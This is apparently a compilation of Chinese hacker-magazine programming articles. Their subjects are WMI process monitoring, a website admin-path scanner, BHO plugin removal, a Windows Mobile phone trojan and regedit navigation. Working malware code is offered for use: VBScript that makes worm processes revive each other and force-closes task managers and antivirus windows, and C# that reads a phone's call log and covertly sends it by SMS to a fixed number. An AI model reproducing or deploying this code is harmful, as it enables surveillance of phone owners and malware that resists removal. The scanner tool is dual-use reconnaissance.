

其中，“管理应用程序”部件相当于一个客户端，负责处理被管理的环境。它可以是类似 VBS 这样简单的脚本，也可以是更复杂的程序。“CIM 对象管理器”部件是一个中介者，它负责处理管理数据资源和客户端（管理应用程序）提供的静态和动态资源。

“提供程序”部件和“CIM 存储库”部件都是管理数据源。不同的是，“CIM 存储库”提供的是静态管理数据，例如类、实例和它们的属性；而“提供程序”提供的是动态管理数据，它们是一些 COM 对象，直接与被管理对象（如 WIN32 系统、注册表、SNMP 等）进行交互，并动态地产生交互信息。“被管理对象”是在不同环境中的一些物理或者逻辑对象。可以看出，“CIM 对象管理器”是 WMI 结构的中心，它控制着信息的流程，这样客户端（管理应用程序）就不用理会数据的来源。

在本文中，我们关心的是如何用脚本（管理应用程序）通过中介者（CIM 管理程序）去访问静态的管理数据资源（CIM 存储库）。不过，我们还需要先了解 4 个基本概念。

- 1. WMI 命名空间

前面我们提到过，WMI 中有许多类，其中一部分是从 CIM Schema 中派生出来的。那么，WMI 命名空间的作用就是在相同的环境中区分这些类，WMI 的命名空间创建了这样一个层次结构：

- Root：作为所有其他名字空间的占位符；它只包含 WMI 的系统类，并在其他所有名字空间中出现。
- `root\default`：与注册表操作有关的类。
- `root\security`：与系统安全有关的类。
- `root\cimv2`：从 CIM Schema 派生的类，代表最常用的 Win32 工作环境。

#### 2. WMI 事件

事件表示被管理环境中的变化，可以分为内部事件、外部事件和计时事件等。在此只简单介绍一下内部事件，而不深入，如图 2 所示。


#### 3. WMI 对象路径

WMI 对象路径用来定位在 CIM 存储库中的类或者类的实例。对象路径第 1 个元素是目标计算机名（可省略，默认本地）；第 2 个元素是要连接到的 WMI 命名空间；第 3 个元素是该命名空间下要访问的类名，并用 `:` 与命名空间分隔。例如：`\\.\root\cimv2:win32_process`。若省略命名空间，通常默认取注册表 `HKEY_LOCAL_MACHINE\Software\Microsoft\Wbem\Scripting\Default_Namespace`（一般为 `root\cimv2`）。

#### 4. WMI 查询语言

WMI 查询语言（WQL）提供了一种精确的方法，以便在 WMI 命名空间中选择特定部件。WQL 是 ANSI SQL 的一个子集，针对 CIM 存储库查询进行了公式化，只能用于数据提取，不能用于创建、删除或修改类或实例。

- 1. **数据查询**：用于获取类或实例。  
  语法：`Select pro_1,pro_2,pro_3 From Myclass`  
  例如：`select handle,name from win32_process`

它会返回所有进程的句柄（PID）和名称两种属性。我们也可以用通配符 `*` 来查询 `win32_process` 类的所有属性，然后用 where 语句限定返回范围，例如 `Select * from win32_process where name="wscript.exe"`。

我们来看这一段 VBS 脚本，它返回了 QQ.EXE 这个进程的创建时间。

```vb
Set objwmi=GetObject("winmgmts:\\.\root\cimv2")
Set ops=objwmi.execquery("select * from win32_process where name='qq.exe'")
For Each op In ops
    MsgBox op.creationdate
Next
```

- 2. **事件查询**：用于过滤出一个特定事件通知的属性。  
  语法：`Select pro_1,pro_2,pro_3 From MyEventClass`

每个查询允许加入一些附加操作，例如 `Within`（确定轮询监控事件频率或初始事件后的时间）、`Group`（分组相同事件并生成单独通知）、`Having`（过滤 `Within` 和 `Group` 子句收集到的通知）。

```sql
Select * from __InstanceOperationEvent Within 1
Where TargetInstance isa "Win32_Process" and
TargetInstance.Name="qq.exe"
```

它返回的结果是：每隔 1 秒钟查询 `win32_process` 类中 `name` 属性为 `qq.exe` 的实例所有变动事件通知。`__InstanceOperationEvent` 包含 `__InstanceModificationEvent`、`__InstanceDeletionEvent` 和 `__InstanceCreationEvent` 等 3 种内部事件。

- 3. **Schema 查询**：获取类定义。这里不具体介绍。

#### 实现进程相互守护

有了以上 WMI 的一些基础知识，如果再了解一下 VBS 语法，就可以来玩 VBS“进程相互守护”了。下面是我们的函数，我将尽量详细地加入注释，但是更希望对 WMI 有兴趣的初学者能自己实践，来理解下面的语句。

```vb
Function monps(path_process)
' 监视进程的删除
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
' 连接本地 CIMV2 类，并通过 GetObject 函数返回一个对象进行引用
Set colMonitoredProcesses = objWMIService.ExecNotificationQuery( _
    "select * from __InstanceOperationEvent Within 1 Where TargetInstance isa 'Win32_Process'")
' 通过 ExecNotificationQuery 方法执行 WQL 查询语句
Do
  ' 循环
  Set objEvent = colMonitoredProcesses.NextEvent
  Select Case objEvent.Path_.Class
    Case "__InstanceDeletionEvent"
      MsgBox objEvent.TargetInstance.name & "进程删除"
      If LCase(objEvent.TargetInstance.name)=LCase("wscript.exe") Then
        test1=LCase(CStr(objEvent.TargetInstance.Commandline))
        test2=LCase(path_process)
        test=InStr(test1,test2)
        If test>0 Then
          MsgBox "yes"
          hstart "wscript.exe " & path_process
        Else
          MsgBox "no"
        End If
      End If
  End Select
Loop
End Function

Function hstart(path_psstart)
' 隐藏方式启动进程
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
Set objStartup = objWMIService.Get("Win32_ProcessStartup")
Set objConfig = objStartup.SpawnInstance_
objConfig.ShowWindow = 0
Set objProcess = GetObject("winmgmts:root\cimv2:Win32_Process")
Error = objProcess.Create(path_psstart, Null, objConfig, intProcessID)
If Error <> 0 Then
  Wscript.Echo "Process could not be restarted due to error " & Error & "."
End If
End Function
```

关于 Win32_ProcessStartup 类，我们可以这样去查看它。在命令行中输入 **wbemtest**，弹出 Windows 管理规范测试器后，点击“连接”，这里可以连接到前面提到的 WMI 命名空间。前面提到过 cimv2 类是我们常用的 Win32 环境，所以我们将 default 命名空间更改连接到 cimv2 命名空间，然后点击“连接”。之后点击“枚举类别”，选择“递归”后点击“确定”，就可以看到 cimv2 命名空间中的所有顶级类。

那么如何打造任务管理器无法结束的 wscript.exe 呢？为了节约版面，不再贴代码，而用刚才的函数代替。先构建一个病毒主体 main.vbs（因为本文是在改写一个 Super VBS 蠕虫中诞生的），该 main.vbs 会在 Windows 目录下写入 psmonitor1.vbs，在 System32 目录下写入 psmonitor2.vbs。在 psmonitor1.vbs 中，我们用 `monps(getsfolder(1) & "psmonitor2.vbs")` 来监控 psmonitor2.vbs，在 psmonitor2.vbs 中用 `monps(getsfolder(0) & "psmonitor1.vbs")` 来监控 psmonitor1.vbs。这样，psmonitor1.vbs 与 psmonitor2.vbs 中就形成了互相守护，结束其中一个就会由另外一个来启动。由于在 Windows 任务管理器中无法同时关闭两个进程，所以就实现了非常直白的“相互进程守护”。其中的 getsfolder 函数代码如下：

```vb
Function getsfolder(folderspec)
' 0 Windows 文件夹，包含 Windows 操作系统安装的文件
' 1 System32 文件夹，包含库、字体和设备驱动程序文件
' 2 Temp 文件夹，用于保存临时文件。可以在 TMP 环境变量中找到该文件夹的路径
Set tmpfso=CreateObject("Scripting.FileSystemObject")
getsfolder=tmpfso.GetSpecialFolder(folderspec) & "\"
Set tmpfso=Nothing
End Function
```

```vb
Function copyfile(path_from,path_to)
' FSO 以覆盖的方式复制文件
Set tmpfso=CreateObject("Scripting.FileSystemObject")
tmpfso.CopyFile path_from,path_to,True
Set tmpfso=Nothing
End Function
```

但这种相互守护进程很明显有两个缺陷：其一就是在 psmonitor1.vbs 或者 psmonitor2.vbs 任意一个被删除或者修改后就会出错；其二就是可以使用 IceSword 这样的超级任务管理器同时结束多个 wscript.exe 进程。

对于缺陷一，我还没有想到比较好的解决方法。最开始的想法是在 psmonitor1.vbs 和 psmonitor2.vbs 里各写入一个监控文件删除的函数，那么一旦其中一个被删除，则重新写入或者 copy 一个备份。但由于使用了 NextEvent，这相当于脚本运行至 `Set objEvent=colMonitoredProcesses.NextEvent` 就暂停了，一直要等到所监控的事件发生才会去执行下一个，所以在一个 VBS 脚本里我还没有实现同时监控文件删除和进程删除。这是一个很大的遗憾，如果大家有比较好的想法，可以在论坛提出。文件监控函数的代码实现如下：

```vb
Function monfile(path_file,path_backfile)
' 监视指定文件的删除
strpath_file=Replace(path_file,"\","\\")
Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
Set colMonitoredFile = objWMIService.ExecNotificationQuery( _
 "SELECT * FROM __InstanceOperationEvent WITHIN 1 WHERE " _
 & "TargetInstance ISA 'CIM_DataFile' and " _
 & "TargetInstance.Name='" & strpath_file & "'")
Do
  Set objEvent = colMonitoredFile.NextEvent
  Select Case objEvent.Path_.Class
    Case "__InstanceDeletionEvent"
      MsgBox objEvent.TargetInstance.name
      copyfile path_backfile,path_file
  End Select
Loop
End Function

Function copyfile(path_from,path_to)
' FSO 以覆盖的方式复制文件
Set tmpfso=CreateObject("Scripting.FileSystemObject")
tmpfso.CopyFile path_from,path_to,True
Set tmpfso=Nothing
End Function
```

对于缺陷二，我们可以通过暴力方法来解决。我们知道 IceSword 或者 360 等一些辅助工具启动的时候都会使用随机字符串标题栏。随机字符串标题栏一般是大写或者小写字母加上数字的混合，这样我们就有一个比较直白的方法来关闭它们了。实现代码如下：

```vb
Sub kilid(winid)
Set tmpws=CreateObject("wscript.shell")
If tmpws.AppActivate(winid)=True Then
  tmpws.SendKeys "%{F4}"
  tmpws.SendKeys "Y"
End If
Set tmpws=Nothing
End Sub

winids=Array("我的电脑","超级兔子","注册表","控制台","命令提示符","运行","进程","管理", ... , "a","b","c", ... ,"z","A","B", ... ,"Z","0","1", ... ,"9","_(a)","(b)", ... ,"(z)")
Do
  For Each winid In winids
    Call kilid(winid)
  Next
Loop
```

在此脚本中，我们使用 SendKeys 发送“%{F4}”组合键，也就是 Alt+F4 关闭窗口，这样 360 安全卫士、超级兔子、Windows 任务管理器等常用的进程管理工具都会被关掉。针对 IceSword，特别加入了一个 `tmpws.SendKeys "Y"`。此外，为了防止从搜索引擎搜索下载进程管理工具，也关闭了含有常见搜索引擎关键字的 IE 浏览器窗口（FireFox 等其他浏览器没有测试）。不过有一点要注意的是，从 a~z 中不含有 p。这是个很小的缺点，为什么，大家可以自己测试看看。

前置知识：VB  
关键词：工具、HTTP标头、404出错

## 打造404自定义增强后台扫描工具

文/图 李劼杰

几乎所有的注入工具中都集成了后台扫描功能，但这些工具多半是根据返回的HTTP标头来判断页面是否存在的。如果返回的不是404，就判定页面存在，这样做有非常大的局限性。如果网站自定义了404出错页，那么所有页面返回的HTTP标头就都是200（成功），程序就会判定所有页面都存在。这也是啊D和明小子的一大Bug，如图1（啊D）和图2（明小子）所示。我使用自己的网站作为示例，啊D和明小子列出了所有预设的链接。下面我们用VB编写一个小工具，即可克服一般扫描器中404自定义的缺陷。

图1

图2

### 了解一下HTTP头

我们先来了解一下各种HTTP标头都表示什么意思。返回200表示页面存在，404表示文件不存在，403表示拒绝访问，或者拒绝列目录。大家可以参考以下详细列表。

- 400 - 错误的请求。
- 401 - 访问被拒绝。IIS定义了许多不同的401错误，它们指明更为具体的错误原因。这些具体的错误代码在浏览器中显示，但不在IIS日志中显示。
  - 401.1 - 登录失败。
  - 401.2 - 服务器配置导致登录失败。
  - 401.3 - 由于ACL对资源的限制而未获得授权。
  - 401.4 - 筛选器授权失败。
  - 401.5 - ISAPI/CGI应用程序授权失败。
  - 401.7 - 访问被Web服务器上的URL授权策略拒绝。这个错误代码为IIS 6.0所专用。
- 403 - 禁止访问！IIS定义了许多不同的403错误，它们指明更为具体的错误原因。
  - 403.1 - 执行访问被禁止。
  - 403.2 - 读访问被禁止。
  - 403.3 - 写访问被禁止。
  - 403.4 - 要求SSL。
  - 403.5 - 要求SSL128。
  - 403.6 - IP地址被拒绝。
  - 403.7 - 要求客户端证书。
  - 403.8 - 站点访问被拒绝。
  - 403.9 - 用户数过多。
  - 403.10 - 配置无效。
  - 403.11 - 密码更改。
  - 403.12 - 拒绝访问映射表。
  - 403.13 - 客户端证书被吊销。
  - 403.14 - 拒绝目录列表。
  - 403.15 - 超出客户端访问许可。
  - 403.16 - 客户端证书不受信任或无效。
  - 403.17 - 客户端证书已过期或尚未生效。
  - 403.18 - 在当前的应用程序池中不能执行所请求的URL。这个错误代码为IIS 6.0所专用。
  - 403.19 - 不能为这个应用程序池中的客户端执行CGI。这个错误代码为IIS 6.0所专用。
  - 403.20 - Passport登录失败。这个错误代码为IIS 6.0所专用。
- 404 - 未找到。
  - 404.0 - （无）没有找到文件或目录。
  - 404.1 - 无法在所请求的端口上访问Web站点。
  - 404.2 - Web服务扩展锁定策略阻止本请求。
  - 404.3 - MIME映射策略阻止本请求。
- 405 - 用来访问本页面的HTTP谓词不被允许（方法不被允许）。
- 406 - 客户端浏览器不接受所请求页面的MIME类型。
- 407 - 要求进行代理身份验证。
- 412 - 前提条件失败。
- 413 - 请求实体太大。
- 414 - 请求URI太长。
- 415 - 不支持的媒体类型。
- 416 - 所请求的范围无法满足。
- 417 - 执行失败。
- 423 - 锁定。

图3

全局变量 scount、key404 和 yes404。

```vb
Dim scount As Integer
' 表示当前正在扫描的链接数目
Dim key404 As Boolean
' 表示404是否为自定义，是布尔值
Dim yes404 As String  ' 自定义404页面的关键字
```

我们为按钮添加如下事件：

```vb
Private Sub Command1_Click()
If Command1.Caption = "开始扫描" Then
    Command1.Caption = "暂停扫描"
    ' 改变按钮的caption
    Label3.Caption = "正在检测是否404自定义"
    ' 状态栏给出提示
Else
    Command1.Caption = "开始扫描"
    Inet1.Cancel    ' 强制退出inet1
    scount = 0      ' 将扫描的链接数量置0
    Label3.Caption = "扫描进程已经停止"
    Exit Sub
End If

List1.Clear        ' 将结果列表框清空
' 下面对输入的地址进行判断和转换
Dim url1, okurl As String
url1 = Trim(Text1.Text)   ' 首先去掉空格
If LCase(Mid(url1, Len(url1) - 2, 3)) = "com" Or _
   LCase(Mid(url1, Len(url1) - 2, 3)) = "net" Or _
   LCase(Mid(url1, Len(url1) - 1, 2)) = "cn" Then
    ' 如果是直接给出的域名，在后面加上分隔符
    Text1.Text = Text1.Text & "/"
Else
    ' 如果不是直接给出的域名，那么继续处理
    Dim tolocate As Integer
    For i = 1 To Len(Text1.Text)
        If Mid(Text1.Text, i, 1) = "\" Or Mid(Text1.Text, i, 1) = "/" Then
            tolocate = i
        End If
    Next
    ' 用for循环取得最后一个分隔符"/"和"\"的位置
    Text1.Text = Mid(Text1.Text, 1, tolocate)
End If
```

#### 程序实现的原理

程序实现的原理是：我们任意抓取一个不存在的页面，比如说 hacker123456789.html；如果返回的HTTP标头不是404，则表明其404页面已经自定义。此时从返回数据中取出前500字节数据作为关键字符，之后在扫描每一个链接的时候，直接将返回数据的前500字节数据与之对照，如果相同，则表明文件不存在；如果不相同，则文件存在。

#### 编程实现

控件的布局如图3所示。我们需要两个列表框、两个文本框，还有两个Inet控件（其中一个用于检测是否为404自定义，一个用于扫描进程），另外添加一个按钮。

需要扫描的链接保存在一个文本中，文件名为 datafile.inf，每行一个链接，便于读取。

下面我们来看看关键代码。首先声明3个：

```vb
'下面扫描进程开始了
Inet2.Cancel    ' Inet2 强制退出
Inet2.Execute Text1.Text & "bingyujiankel11111111111111.asp"
' 访问一个不存在的链接，判断是否为404自定义
If Inet1.StillExecuting Then
    ' 如果 Inet1 正忙，让其继续执行
    DoEvents
    Inet1.Cancel
End If
End Sub
```

下面的代码是窗体载入事件：

```vb
Private Sub Form_Load()
' 首先从 datafile.inf 载入敏感目录和文件夹列表
Open App.Path & "\datafile.inf" For Input As #1
While Not EOF(1)
    Line Input #1, toinput
    List2.AddItem toinput
Wend
Inet1.Cancel
End Sub
```

当 Inet1 的状态改变时，会触发以下事件：

```vb
Private Sub inet1_StateChanged(ByVal State As Integer)
If scount >= List2.ListCount Then
    MsgBox "所有连接已经检测完毕", vbInformation
    Label3.Caption = "所有连接已经检测完毕"
    Command1.Caption = "开始扫描"
    scount = 0
    Inet1.Cancel
    Exit Sub
End If

If State = 12 Then
    Label3.Caption = "正在检测: " & Text1.Text & List2.List(scount)
    If InStr(Inet1.GetHeader, "404") Then
        scount = scount + 1
        Inet1.Execute Text1.Text & List2.List(scount)
    Else
        If Inet1.GetChunk(500) = yes404 Then
            scount = scount + 1
            Inet1.Execute Text1.Text & List2.List(scount)
        Else
            List1.AddItem Text1.Text & List2.List(scount)
            scount = scount + 1
            Inet1.Execute Text1.Text & List2.List(scount)
        End If
    End If
End If
End Sub
```

下面是 Inet2 判断网站是不是404自定义的代码，此处尤为关键。

```vb
Private Sub Inet2_StateChanged(ByVal State As Integer)
If State = 12 Then
    If InStr(Inet2.GetHeader, "404") Then
        ' 如果404页面不是自定义的
        Inet1.Execute Text1.Text & List2.List(0)
        key404 = False
    Else
        key404 = True
        yes404 = Inet2.GetChunk(500)
        ' 500个字节的关键字符
        Inet1.Execute Text1.Text & List2.List(scount)
        ' 扫描下一个链接
    End If
End If
End Sub
```

双击扫描结果，打开这个链接：

```vb
Private Sub List1_DblClick()
Shell ("explorer.exe " & List1.Text), vbNormalFocus
End Sub
```

#### 总结

程序编译之后，我们来检验一下效果，如图4所示，可以正确地检测到链接，克服了其他扫描工具的缺陷。单从这个方面来讲，是不是要比啊D和明小子更准确呢？

图4

到此也可以给大家一些启发，在使用别人编写的工具时，也要注意发现问题，并善于利用自己已有的知识去解决问题。我相信，黑防的读者们可以在追求技术高峰的道路上有所突破！

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：Delphi  
关键词：编程、BHO、注册表

## 编写删除BHO插件的程序

文/图 tlHelen

我们前几次谈论了BHO插件程序编写及应用方面的问题，均在其中谈到了卸载BHO插件的方法：在“程序”的“运行”中输入“regsvr32 /u DIEVisit.dll”，或者直接在注册表中将“Browser Helper Objects”目录下注册的CLSID删掉，就可以卸载掉BHO插件了。过程很简单、很快捷，但缺点是我们不能知道删除它的具体原理，这多少有点遗憾。其实对喜欢编写程序的人来说，没有比不能知道原理更痛苦的事了。就我个人而言，我会尽可能多地知道它的原理，当我理解了一件事情的真相后，会感到非常惬意，身心愉快。在探索真相的过程中，我们还能锻炼一下自己的编程能力，这对掌握一门开发语言、加深理解用法很有好处。

图1

“风云防火墙”不知道大家有没有用过，这是一款非常好的防火墙，其中有个“插件管理项”功能，可以对你系统中的插件进行表格化罗列，如图1所示。我们能清晰地看到系统中有哪些插件，其中包括IE的BHO插件、IE工具条、IE的右键菜单、IE工具栏按钮、外挂钩子等。仅这一项功能，不可谓不强大。

图2

除了用工具查看以外，我们还可以通过IE自身带的“管理加载项”来查看，这个在IE6以上都有，如图2所示。IE自带的这个“管理加载项”功能，我觉得没有“风云防火墙”来得简单，来得更人性化，这也是我认为“风云防火墙”做得好的原因之一吧。

现在我们编写的这个删除BHO的程序，就是实现“风云防火墙”中的一个小功能：IE Browser Helper Object，俗称IE BHO插件。当然，我写的这个也不是很好，算是给大家一个思路吧。

### BHO插件在注册表中的位置及编程思路

BHO在注册表的位置为：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects`。

这里管理着BHO项目的添加、删除。我们知道了BHO在注册表中的位置项，那么程序的路径位置也应该保存在注册表的某处。下面还是看看在注册表中位置的截图来说明问题，如图3和图4所示。我们可以看到，图4是图3中的一个BHO程序的位置图，它在注册表中的位置位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{XXXXXXXX-XXXX-XXXX-XXXXXXXXXXXX}\InprocServer32` 处。

图3

图4

我们已经清楚了它们之间的关系，现在我们花一点时间来理一理思路，这样有利于对源程序的理解。先找到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects`，可以知道IE的BHO插件共有几个，并从每个BHO项的数据值里了解它的名称。再根据项 `{XXXXXXXX-XXXX-XXXX-XXXXXXXXXXXX}`，从 `HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{XXXXXXXX-XXXX-XXXX-XXXXXXXXXXXX}\InprocServer32` 里找到每个BHO的实际程序路径。

#### 程序实现

图5是我设计的程序界面，从中可以看到：删除BHO时可以多选或单选。具体实现代码如下，详细代码请见源代码。

图5

```pascal
// ListView排序
function CustomSortProc(Item1, Item2: TListItem; ColumnIndex: Integer): Integer;
begin
  if ColumnIndex = 0 then
    Result := CompareText(Item1.Caption, Item2.Caption)
  else
    Result := CompareText(Item1.SubItems[ColumnIndex - 1], Item2.SubItems[ColumnIndex - 1]);
end;

procedure Read_ALL_Browser_Helper_Objects(ReadORDelete: string; keyvalue: string);
var
  BHOReg: TRegistry;
  StrReg: TRegistry;
  BHOKeylist: TStringList;
  i: Integer;
  Rpath, StrPath, DeletePath: string;
  Name, FilePath: string;
  Titem: TListItem;
begin
  try
    if ReadORDelete = 'Read' then MainForm.ListView1.Items.Clear;
    BHOReg := TRegistry.Create;
    StrReg := TRegistry.Create;
    BHOReg.RootKey := HKEY_LOCAL_MACHINE;
    StrReg.RootKey := HKEY_LOCAL_MACHINE;
    BHOKeylist := TStringList.Create();

    Rpath := 'SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Browser Helper Objects';
```

```pascal
if BHOReg.KeyExists(Rpath) then
begin
  if BHOReg.OpenKey(Rpath, false) then
    BHOReg.GetKeyNames(BHOKeylist);
  // 读出所有的键
  if BHOKeylist.Text <> '' then
    for i := 0 to BHOKeylist.Count - 1 do
    begin
      DeletePath := 'SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Browser Helper Objects\\' + BHOKeylist.Strings[i];
      StrPath := 'SOFTWARE\\Classes\\CLSID\\' + BHOKeylist.Strings[i];

      Name := '';
      FilePath := '';
      if Strreg.KeyExists(StrPath) then
      begin
        if Strreg.OpenKey(StrPath, false) then
        begin
          try
            BHOReg.CloseKey;
            Rpath := 'SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Explorer\\Browser Helper Objects\\' + BHOKeylist.Strings[i];
            if BHOReg.OpenKey(Rpath, false) then
              Name := BHOReg.ReadString('');
          except
            Name := '';
          end;

          try
            Name := Name + Strreg.ReadString('');
          except
          end;

          if Name = '' then
          begin
            StrPath := 'SOFTWARE\\Classes\\CLSID\\' + BHOKeylist.Strings[i] + '\\ProgID';
            Strreg.CloseKey;
            if Strreg.OpenKey(StrPath, false) then
            begin
              try
                Name := Strreg.ReadString('');
              except
              end;
              Strreg.CloseKey;
            end;
          end;

          StrPath := 'SOFTWARE\\Classes\\CLSID\\' + ...
```

```pascal
BHOKeylist.Strings[i] + '\\InprocServer32';
Strreg.CloseKey;
if Strreg.OpenKey(StrPath, false) then
begin
  try
    FilePath := Strreg.ReadString('');
  except
  end;
  Strreg.CloseKey;
end;

if ReadORDelete = 'Read' then
begin
  Titem := MainForm.ListView1.Items.add;
  Titem.Caption := Name;
  Titem.SubItems.add(FilePath);
end
else
begin
  Name := BHOReg.ReadString(BHOKeylist.Strings[i]);
end;

if ReadORDelete = 'Delete' then
begin
  //// 搜索比对 名称符合的插件
  if Pos(keyvalue, Name) > 0 then
  begin
    // 找到，开始删除
    //// 删除注册表项
    with Tregistry.Create do
    try
      RootKey := HKEY_LOCAL_MACHINE;
      DeleteKey(DeletePath);
    finally
      free;
    end;
    // 省略，详见源代码
  end;
end;
```

这样，我们就编写完了删除BHO插件的程序。以上代码在 Windows 2003/XP、IE7、Delphi7 下调试通过。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：VS.net 2005

关键词：Windows CE、手机、木马

## 打造手机通话记录

### 获取木马


文／masepu

随着移动通信的不断发展，手机的性能不断提升，所拥有的功能也越来越丰富。以前只有电脑上才能够完成的工作，现在在很多智能手机上也可以轻松完成。而市场上的智能手机操作系统都提供了方便的编程接口和开发环境，特别是 Windows CE 操作系统，最大限度地继承了桌面版 Windows 的丰富功能，同时又融入了许多新的特性，具有良好的网络通信、图形管理和多媒体管理等功能。虽然是新的操作系统环境，但其开发环境和语言却与桌面版 Windows 非常相似。

今天我们要写的这个程序就是在 VS.net 2005 下采用 C# 开发的，程序的功能是通过短信将手机通话记录隐蔽发送至指定的手机上，以实现一个简单的敏感信息获取木马。现在我们就开始对采用 Windows CE 操作系统的智能手机进行编程，打造一个属于自己的简单手机木马。

开始之前，我们必须在电脑上搭建好 Windows CE 软件的开发和测试环境，步骤如下：安装 Visual Studio 2005 TRM（开发工具），再安装 ActiveSync 4.5 Developer Preview（微软的同步软件，可以同时支持 PPC 和微软智能手机之间通信，用于仿真机数据传输测试）和 Windows Mobile 5.0 SDK for PocketPC（PPC 开发 SDK），最后安装 Windows Mobile 5.0 Emulator Images（Windows Mobile 5.0 中文仿真模拟器，如果你打算在手机上直接测试，可以略过此步骤）。

安装成功后，打开 Visual Studio 2005 编译器，在“新建工程 -> 智能设备”中找到“Windows Mobile 5.0 Pocket PC”的新建项目，选择“控制台应用程序”，建立一个新的项目。

下面我们就对程序的功能进行代码实现。首先我们来获得手机的全部通话记录。在 .NET Compact Framework 中没有直接获取用户通话记录的函数，只能通过封装底层 API 来实现获得通话记录的功能。相关底层 API 函数位于 phone.dll 中，我们使用从 phone.dll 库导入的 PhoneGetCallLogEntry 方法。该函数返回一个通话记录结构，在该结构中，包含号码、姓名、通话开始时间、通话结束时间等信息。在我们调用此 API 之前，先要用 PhoneOpenCallLog 打开通话记录句柄，同时在操作结束后，调用 PhoneCloseCallLog 关闭句柄，具体实现代码如下：

```csharp
IntPtr handle = IntPtr.Zero;
CALLLOGENTRY entry = new CALLLOGENTRY();
PhoneOpenCallLog(ref handle);
entry.cbSize = (uint)Marshal.SizeOf(entry);
if (handle != IntPtr.Zero)
{
    while (PhoneGetCallLogEntry(handle, ref entry) == 0)
    {
        string phoneNumber = Marshal.PtrToStringUni(entry.pszNumber); // 通话记录电话号码
        string name = Marshal.PtrToStringUni(entry.pszName);          // 通话记录电话人姓名
        if (phoneNumber == null) { phoneNumber = string.Empty; }
        if (name == null) { name = string.Empty; }
        string temp = (phoneNumber.Trim() + name.Trim());
        CallInfo = CallInfo + temp;
    }
    PhoneCloseCallLog(handle);
}
```

下面将存储在 CallInfo 字符串变量中的通话记录通过短消息发送出来。发送短信的方式采取隐式发送，不会出现在已发送短信列表中。

```csharp
Microsoft.WindowsMobile.PocketOutlook.SmsMessage;

sms = new SmsMessage("151608XXXXX", CallInfo.Substring(0, 140)); // 这里为了测试，不发太多条，用限制字数的方式只发送了一条

sms.Send(); // 发送
```

这样，我们的简单手机木马就写完了，实现了获得通话记录并发送到指定手机上的功能。想要获取其他的信息，还可以继续添加功能。以上代码在 Visual Studio 2005 中编译通过，在使用 Windows Mobile 6 Professional CE 操作系统 5.2.1238 版本的多普达 S1 手机上测试成功。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

前置知识：Delphi  
关键词：编程、BHO插件、注册表


## 编写插件管理程序之

#### 注册表中定位

文／图 tlHelen

在完成插件的管理程序后，心中还是有点遗憾。遗憾什么呢？对照“风云防火墙”的“插件管理项”，如果在插件上点鼠标右键，会出现一个“注册表中定位”的功能项，如图1所示，就会明白我的遗憾是什么了。运行一下这个功能，就会对这个功能一目了然了，如图2所示。

原来这个功能是这样的效果啊，还是很实用的。上次我没能实现，因为我不知道它是怎么做到的。经过几天的查找资料、实验探索，总算实现了这个功能。现在回头再看这个功能的实现，觉得一点都不难，可是当初却不是这么想的。真应了古话：难者不会，会者不难啊。

#### 注册表中的位置

现在，我们来看看是如何实现这个功能的。同样的道理，这个功能的实现也离不开注册表的内容。我们先来了解一个事实：当你运行注册表程序 Regedit.exe 打开注册表中的某个键值，然后你就关闭注册表程序了。这时，再打开注册表程序，会发现来到的就是你刚才打开的那个键值的位置。难道注册表会记忆最后的操作位置吗？带着这个问题，百度搜索一下，得到“Windows XP 的注册表编辑器有记忆功能，在打开时会自动定位到上次运行注册表时最后打开的键。这个自作聪明的功能并没有多大的意义，反而会泄露我们的秘密，可以将它禁止。它的位置是在注册表的 HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit\LastKey 项。”的这个位置记录了我们最后的结点，下次打开时就会定位它，返回到我们上次退出时的结点。


图1


图2

现在我们就要利用这一点，将我们的插件位置写在 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit\LastKey` 键值这里，再打开注册表程序，就可以实现快速定位了。举个例子：只要在编辑器（regedit.exe）启动之前，把 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Applets\Regedit\LastKey="我的电脑\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders"`，再次打开 regedit.exe 时，就会自动定位到“我的电脑\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders”这里。

